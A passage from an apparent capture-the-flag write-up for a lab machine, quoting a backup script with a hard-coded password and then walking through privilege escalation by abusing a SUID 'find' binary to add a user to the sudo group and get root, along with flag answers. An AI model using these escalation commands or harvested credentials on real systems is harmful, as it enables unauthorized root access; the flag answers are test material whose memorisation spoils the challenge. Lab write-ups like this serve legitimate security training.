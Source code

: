 		SOURCE=/home/stoner
		TARGET=/usr/local/backup
		
		LOG=/home/stoner/bck.log
		 
		DATE=`date +%y\.%m\.%d\.`
		
		USER=stoner
		#superduperp@$$no1knows
		
		ssh $USER@$REMOTE mkdir $TARGET/$DATE
		
		
		if [ -d "$SOURCE" ]; then
		    for i in `ls $SOURCE | grep 'data'`;do
		             echo "Begining copy of" $i  >> $LOG
		             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
		             echo $i "completed" >> $LOG
		                
		                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
		                    rm $SOURCE/$i
		                    echo $i "removed" >> $LOG
		                    echo "####################" >> $LOG
		                                else
		                                        echo "Copy not complete" >> $LOG
		                                        exit 0
		                fi 
		    done
		     
		
		else
		
		    echo "Directory is not present" >> $LOG
		    exit 0
		fi
		```
		Result: Got credentials `stoner:superduperp@$$no1knows`
		**Where was the other users pass stored(no extension, just the name)?** `backup`
	4. `sudo -l`
		```
		User stoner may run the following commands on Vulnerable:
	    (root) NOPASSWD: /NotThisTime/MessinWithYa
		```
	5. `cat /home/stoner/.secret`: `You made it till here, well done.`
		**`user.txt`** is `You made it till here, well done.`
9. Privilege escalate
	1. SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.
	2. Use the following command to find files whose SUID bit is set: `find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null`.
	3. Great SUID Attacks Info: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#suid
	4. In the list of files there is an interesting one, namely the command find itself. The command find has an -exec flag where you can execute commands. Because the command has the SUID of root set, I can execute commands as root. 
	5. **What did you exploit to get the privileged user?** `find`
	6. Add `stoner` to the sudo group: `find . -exec usermod -aG sudo stoner \;` and `su stoner` to reload shell
	7. `sudo -l`
		```
		User stoner may run the following commands on Vulnerable:
	    (ALL : ALL) ALL
	    (root) NOPASSWD: /NotThisTime/MessinWithYa
		```
	8. `sudo -i` to get `root`
	9. `cat /root/root.txt`: `It wasn't that hard, was it?`